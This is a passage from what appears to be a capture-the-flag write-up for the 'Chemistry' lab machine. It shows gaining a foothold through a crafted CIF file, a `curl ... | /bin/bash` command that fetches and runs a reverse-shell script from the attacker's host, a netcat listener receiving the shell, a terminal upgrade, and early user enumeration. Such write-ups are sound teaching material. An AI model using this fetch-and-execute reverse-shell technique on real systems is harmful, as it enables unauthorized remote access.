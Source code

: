 ```
_space_group_magn.name_BNS  "P  n'  m  a'  "

```

This took a bit of playing, as `bash` doesn’t seem to be in the PATH, so if I just did `bash` instead of `/bin/bash`, it fails. I also made work `curl 10.10.14.6/shell.sh|/bin/bash`, and then hosted a simple reverse shell on my Python webserver.

When I run it, I get a shell at waiting `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.38 33786
bash: cannot set terminal process group (1015): Inappropriate ioctl for device
bash: no job control in this shell
app@chemistry:~$

```

I’ll upgrade my shell:

```

app@chemistry:~$ script /dev/null -c /bin/bash
script /dev/null -c /bin/bash 
Script started, file is /dev/null
app@chemistry:~$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
app@chemistry:~$

```

## Shell as rosa

### Enumeration

#### Users

There are two users with home directories in `/home`:

```

app@chemistry:/home$ ls
app  rosa

```
